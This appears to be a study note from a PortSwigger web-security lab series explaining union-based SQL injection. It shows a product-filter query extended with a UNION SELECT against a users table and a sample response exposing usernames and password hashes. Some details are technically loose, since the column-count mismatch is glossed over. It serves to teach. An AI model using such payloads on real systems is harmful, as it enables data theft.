

## Union-Based SQL Injection

Union-based SQL Injection is a technique used to combine the results of two or more SELECT statements into a single result set. This method is particularly useful when the application returns the results of the SQL query in its response.

### Understanding UNION

The `UNION` operator is used to combine the results of two or more SELECT statements. Each SELECT statement within the UNION must have the same number of columns and compatible data types.

#### Syntax of UNION

The basic syntax of a UNION query is:

```sql
SELECT column1, column2, ...
FROM table1
UNION
SELECT column1, column2, ...
FROM table2;
```

### Exploiting UNION-Based SQL Injection

In our lab, we will exploit the SQL injection vulnerability in the product category filter to retrieve data from other tables. Let's walk through the process step-by-step.

#### Step 1: Identify the Vulnerable Parameter

First, identify the parameter that is vulnerable to SQL Injection. In this case, it is the product category filter.

#### Step 2: Inject Malicious Input

Inject a payload that includes a UNION clause to retrieve data from another table. For example, if the original query looks like this:

```sql
SELECT * FROM products WHERE category = 'input_category';
```

We can inject a payload like this:

```sql
SELECT * FROM products WHERE category = 'input_category' UNION SELECT * FROM users;
```

This will combine the results of the `products` table with the `users` table.

#### Step 3: Analyze the Response

The application will return the combined results of both queries. By analyzing the response, we can extract the usernames and passwords from the `users` table.

### Complete Example

Let's see a complete example of how to exploit the SQL injection vulnerability.

#### Original Query

```sql
SELECT * FROM products WHERE category = 'electronics';
```

#### Injected Query

```sql
SELECT * FROM products WHERE category = 'electronics' UNION SELECT * FROM users;
```

#### Expected Response

The response will contain the combined results of both queries. For example:

```json
[
    {"id": 1, "name": "Smartphone", "category": "electronics"},
    {"id": 2, "name": "Laptop", "category": "electronics"},
    {"username": "admin", "password": "hashed_password"},
    {"username": "user1", "password": "hashed_password"}
]
```

### Mermaid Diagram: SQL Injection Attack Flow



---
<!-- nav -->
[[12-SQL Injection Tools|SQL Injection Tools]] | [[Web Security (PortSwigger)/02-SQL Injection/10-Lab 9 SQL injection attack listing the database contents on non Oracle databases/00-Overview|Overview]] | [[14-Using Burp Suite for SQL Injection|Using Burp Suite for SQL Injection]]
